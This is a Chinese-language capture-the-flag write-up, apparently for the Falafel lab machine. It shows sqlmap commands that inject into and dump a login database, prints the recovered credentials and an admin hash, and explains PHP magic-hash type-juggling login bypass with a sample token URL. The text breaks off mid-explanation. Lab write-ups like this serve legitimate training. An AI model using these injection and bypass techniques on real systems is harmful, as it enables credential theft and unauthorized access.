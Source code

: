 ![]({{ site.url }}/assets/Falafel_73.assets/20201117101749032_901668833.png)

确认只有两个用户
sqlmap
抓包

![]({{ site.url }}/assets/Falafel_73.assets/20201117101801107_1703462999.png)

利于包信息和用户名错误处理信息组合sqlmap语句进行注入


`sqlmap -u http://10.10.10.73/login.php --dbms=MySQL --method=POST --data="username=x&password=y" --random-agent --risk=3 --level=5 -p username --text-only --string "Wrong identification : admin"`

![]({{ site.url }}/assets/Falafel_73.assets/20201117101825375_1998126036.png)

存在注入，。转储
`sqlmap -u http://10.10.10.73/login.php --dbms=MySQL --method=POST --data="username=x&password=y" --random-agent --risk=3 --level=5 -p username --text-only --string "Wrong identification : admin" --dump`

![]({{ site.url }}/assets/Falafel_73.assets/20201117101837888_155015266.png)

`chris:juggling`


没什么用。。。

再看admin的hash

`admin  | 0e462096931906507119562988736854`

0e开头。魔术hash////参考
`https://www.owasp.org/images/6/6b/PHPMagicTricks-TypeJuggling.pdf`
`https://www.whitehatsec.com/blog/magic-hashes/`
`http://bobao.360.cn/learning/detail/398.html`

> 过去十多年来，PHP程序员们一直在跟运算符“==”作斗争。这个运算符引发了许多问题，尤其是对于密码哈希来说更是如此。PHP中的密码哈希是十六进制编码并且可以“0e812389…”形式出现。问题出在“==”跟0e的对比中，这意味着如果以下字符均为数字，那么整个字符串都会被看做浮点。早在五年前Gregor Kopf就指出了这个问题，两年前Tyler Borland与Raz0r也说明了该问题，并且一年前Michal Spacek及Jos Wetzels也有提及，但上周这个问题掀起了更大的波澜。
> 以下是一个哈希类型类表，当在PHP中使用==运算符后等于0的^0+e\d*$被哈希时会出现。这就意味着当密码哈希以“0e…”开头时，它总是会与如下字符串匹配，而不管当序列的所有字符是“0-9”的数字时中的哪些。也就是说这些数字被哈希时被当成数字“0”处理并且会与其他哈希作对比，对比将会是真值。将“0e…”看做“0是某个值的多少次方”，这样结果总是“0”。PHP将该字符串解释为一个整数。

```php
<?php
if (hash('md5','240610708',false) == '0') {
  print "Matched.\n";
}
if ('0e462097431906509019562988736854' == '0') {
  print "Matched.\n";
}
?>
```
实际上这就意味着以下“神奇的”字符串被以完全随机的哈希（如随机分配的密码、随机数、文件哈希或凭证）所哈希时，就越可能为真。同样，如果大胆猜想一下，将一个哈希跟相关哈希均以浮点数“0”通过PHP中的“==”运算符比对，并且如果数据库中的另外一个哈希同样以“0e…”开头，结果也将是真。因此，当跟一个哈希数据库对比时，哈希也很有可能是真，即使它们实际上并不匹配。例如许多cookies不过是哈希，而且找到碰撞更多滴依赖于测试时所使用的有效凭证数量。
用例1：使用下列“神奇的”数字当做你想哈希的密码或字符。当跟实际值的哈希对比时，如果它们都被当做“0”因此为真，你就可以在不持有有效密码的情况下登录账户。例如，这种情况的发生场景是：用户在忘记密码流时选择了自动密码，随后立即尝试登录。
1
`https://example.com/login.php?user=bob&token=0e462097431906509019562988736854`
用例2：攻击者仅需利用下表“哈希（Hash）”一栏中的一个例子将其当做一个值。在某些情况下这些值仅会当做已知值的查询（在内存中，或可能来自数据库并且被比对）。仅仅通过提交哈希值，这个magic hash便会与其他亦被当做“0”的哈希碰撞，因此也会比对为真。
为找到如上结果，我对每个哈希类型都遍历了10亿个哈希整数，试图找到一个当与“0”比对时为真的赋值。如果我在这10亿次尝试中仍未找到，我将会尝试下一个哈希算法。这个方法效率低下但在找到与多数哈希算法有关的“Magic”数字/字符串时，能产生合理效果，另外这些哈希算法的长度为32 hex字符或在单核时较少。其中的一个例外是“adler32”，用于zlib压缩算法并且要求的方法稍有不同。这样做的道理是，对于大多内容来讲，哈希中的熵越多，你的防御就越好。如下是我所使用的代码（adler32要求很多特殊处理以找到不包含特殊字符的有效哈希）：
